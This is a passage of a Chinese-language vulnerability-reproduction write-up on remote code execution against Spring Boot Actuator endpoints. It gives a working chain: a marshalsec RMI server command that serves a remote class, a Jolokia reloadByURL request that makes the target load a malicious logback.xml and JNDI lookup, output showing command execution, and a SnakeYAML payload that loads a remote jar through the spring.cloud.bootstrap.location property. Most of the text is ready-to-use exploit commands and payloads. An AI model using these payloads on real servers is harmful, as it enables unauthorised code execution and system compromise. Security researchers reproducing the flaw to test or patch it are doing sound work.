 
监听 rmi 端口

```
root@kali:~/ldap_rmi# cat rmi.sh
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://10.20.24.191:8000/#ExportObject


root@kali:~/ldap_rmi# ./rmi.sh
* Opening JRMP listener on 1099
Have connection from /10.20.24.191:43878
Reading message...
Is RMI.lookup call for ExportObject 2
Sending remote classloading stub targeting http://10.20.24.191:8000/ExportObject.class
Closing connection



```

浏览器访问加载远程logback.xml文件进行解析,

服务器访问恶意jndi 地址,导致恶意字节码代码执行

`http://10.20.24.191:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/10.20.24.191:8000!/logback.xml`

![](./RCE_GET.png)

## 0x05 命令执行成功

![](./a_success.png)

```
root@kali:/var/www/html# ls /tmp/j*
/tmp/jas502n
root@kali:/var/www/html#
```
# yml RCE 漏洞复现 (三)

通过Spring环境`spring.cloud.bootstrap.location` 属性修改来实现RCE的方法更可靠

该属性用于加载外部配置并以YAML格式解析它。
为了实现这一点，任需要POST `/refresh` 任意内容触发漏洞。

## yaml_payload.yml 文件内容

![](./yml_http.png)

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.20.24.191:8000/yaml_payload.jar"]
  ]]
]
```
